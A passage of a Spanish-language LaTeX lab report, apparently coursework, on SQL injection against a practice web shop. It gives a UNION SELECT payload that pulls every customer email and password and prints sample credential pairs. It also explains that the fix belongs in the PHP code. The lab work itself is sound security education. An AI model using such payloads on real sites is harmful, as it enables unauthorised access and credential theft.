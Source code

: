 \documentclass{article}
\begin{document}
Obtenemos así todas las columnas, y vemos dos que nos interesan: \texttt{email} y \texttt{password}. El último paso es obtener los correos y contraseñas de todos los clientes de la web:

\begin{Verbatim}[frame = lines]
2000' AND 0=1 UNION SELECT email || ',' || password AS movietitle FROM customers;--
\end{Verbatim}

Los resultados fueron suficientes:

\begin{Verbatim}
    aachen.aleppo@mamoot.com,snyder
    aaron.ripper@potmail.com,slob
    abaci.zibo@potmail.com,ebro
    aback.soar@potmail.com,jelly
    abacus.argosy@potmail.com,helmut
    abaft.viand@potmail.com,pony
    abase.jul@kran.com,dioxin
    ...
\end{Verbatim}

En cuanto a las preguntas planteadas en el enunciado, de ninguna de las dos formas propuestas se podría resolver el problema: debe ser modificado en el código PHP como explicábamos en el apartado anterior. En cualquiera de los dos casos se podría seguir enviando la cadena de búsqueda que se quisiese usando herramientas especializadas, como los comandos de terminal \texttt{curl} o \texttt{wget} o la extensión \href{https://addons.mozilla.org/En-us/firefox/addon/httprequester/}{HTTPRequester} de Firefox, que permiten realizar peticiones GET o POST con los parámetros que quiera el usuario.
\end{document}
